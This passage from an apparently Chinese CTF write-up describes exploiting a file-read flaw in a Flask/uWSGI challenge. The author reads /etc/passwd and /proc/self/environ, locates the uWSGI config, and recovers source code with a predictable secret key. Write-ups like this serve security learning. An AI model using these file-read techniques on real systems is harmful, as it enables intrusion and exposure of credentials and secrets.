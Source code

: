 ```python

open("pysession", "w").write(sess.cookies["session"])
```

将 `/etc/passwd` 换成想读的文件就可以了, 需要提前将一个登陆过的 `session` 写在 `pysession` 里面. 然后在这里困了挺久, 读了一圈系统配置也没找到提示, 最后师傅想到可以爆破 `/proc/{pid}/environ` 来爆破自己这个进程的环境变量来得到 `UWSGI_INI` 位置 (后来知道其实 `/proc/self/environ` 就可以了 不用爆破), 我们得到的是  

```
UWSGI_CHEAPER=2
LANG=C.UTF-8
HOSTNAME=309ee00b10f9
NJS_VERSION=1.13.12.0.2.0-1~stretch
GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D
UWSGI_PROCESSES=16
LISTEN_PORT=80
NGINX_VERSION=1.13.12-1~stretch
PWD=/app/hard_t0_guess_n9f5a95b5ku9fg
STATIC_URL=/
staticHOME=/root
NGINX_WORKER_PROCESSES=auto
STATIC_INDEX=0PYTHON_VERSION=3.6.6
SHLVL=0
PYTHONPATH=/app
NGINX_MAX_UPLOAD=0
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
UWSGI_INI=/app/it_is_hard_t0_guess_the_path_but_y0u_find_it_5f9s5b5s9.ini
STATIC_PATH=/app/static
PYTHON_PIP_VERSION=18.1
```

`INI` 中有个 `module` 值, 就是 py 脚本的位置, 我们得到的值是 `hard_t0_guess_n9f5a95b5ku9fg.hard_t0_guess_also_df45v48ytj9_main`, 可以想到文件路径就是 `/app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py`, 得到

```python
# -*- coding: utf-8 -*-
from flask import Flask,session,render_template,redirect, url_for, escape, request,Response
import uuid
import base64
import random
import flag
from werkzeug.utils import secure_filename
import os
random.seed(uuid.getnode())
app = Flask(__name__)
app.config['SECRET_KEY'] = str(random.random()*100)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['MAX_CONTENT_LENGTH'] = 100 * 1024
ALLOWED_EXTENSIONS = set(['zip'])

def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET'])
def index():
    error = request.args.get('error', '')
    if(error == '1'):
        session.pop('username', None)
        return render_template('index.html', forbidden=1)

    if 'username' in session:
        return render_template('index.html', user=session['username'], flag=flag.flag)
    else:
```